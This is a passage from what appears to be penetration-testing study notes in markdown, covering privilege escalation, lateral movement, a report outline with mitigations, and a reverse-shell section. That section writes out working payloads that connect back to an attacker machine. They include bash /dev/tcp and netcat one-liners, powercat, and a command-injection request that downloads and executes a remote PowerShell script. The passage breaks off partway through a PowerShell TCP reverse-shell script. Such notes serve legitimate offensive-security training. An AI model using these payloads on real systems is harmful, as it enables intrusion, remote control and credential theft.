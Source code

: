      - Kernel exploits `searchsploit`
     - SUID/SGID binaries `find / -perm -4000 -type f 2>/dev/null`
     - Misconfigured sudoers or cron jobs
     - Password reuse (from .ssh, history, config files)  
   - Windows (WinPEAS)
     - Weak ACLs / unquoted service paths
     - Vulnerable software (MS17-010 / EternalBlue)
     - Token impersonation (Mimikatz)
     - Cached creds or saved passwords (ntds.dit, SAM/SYSTEM)
     - Enumerate both local & domain privileges
1.  movement
   - Windows: Pass-the-Hash, Kerberos attacks, RDP, SMB, WMI
   - Linux: SSH key reuse, weak passwords, cron jobs
   - Pivoting via compromised host (ligolo-ng, Impacket, CME, Chisel, proxychains, ssh -L, socat)    
1. Report
   - Scope & methodology
   - Hosts discovered and services.
   - Vulnerabilities and exploitation steps.
   - Evidence (screenshots, file hashes, flags).
   - Recommendations for mitigation
     - Patch systems, close unused ports/services
     - Enforce strong passwords and multi-factor authentication
     - Limit user privileges (principle of least privilege)
     - Monitor for suspicious activity and audit logs
     - Network segmentation and firewall rules

# ❗Reverse shell  
Kali port:
80, 443, 53 (reverse shell). Second choice: 4444, 1234 (firewall might block)    
8080 (burp suite)  
8888 (WebDAV shared)  
8000 (Powercat/Python)  

[Reverse Shell Generator](https://www.revshells.com/)
 - Linux `echo $0`  
    - /bin/sh  
    - ❗Interactive bash: `bash -i >& /dev/tcp/<kali>/4444 0>&1`
    - Restricted sh/command injection/web param: `bash -c "bash -i >& /dev/tcp/192.168.45.160/4444 0>&1"`  
    - Netcat: `nc -nv <KALI_IP> 6666 -e /bin/bash`  
  - Windows `echo %COMSPEC%`  
    - cmd.exe  
    - ❗ Windows with PowerShell:
      `powercat -c <KALI_IP> -p 4444 -e powershell`
      ```
      #Kali
      cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
      python3 -m http.server 80

      #Target mand injection
      curl -X POST --data 'Archive=git;IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.170/powercat.ps1");powercat -c <kali> -p 4444 -e powershell' http://<target>:8000/archive  
      ```
    - No PowerShell/PowerCat: `C:\Windows\Temp\nc64.exe <KALI_IP> 4444 -e C:\Windows\System32\cmd.exe`
  - Bypassing web applications (Command injection)
    1. create shell.ps1 on kali
       ```
       $client = New-Object System.Net.Sockets.TCPClient("<kali>",4444)
        $stream = $client.GetStream()
        $writer = New-Object System.IO.StreamWriter($stream)
        $reader = New-Object System.IO.StreamReader($stream)
        while($true){
          $command = $reader.ReadLine()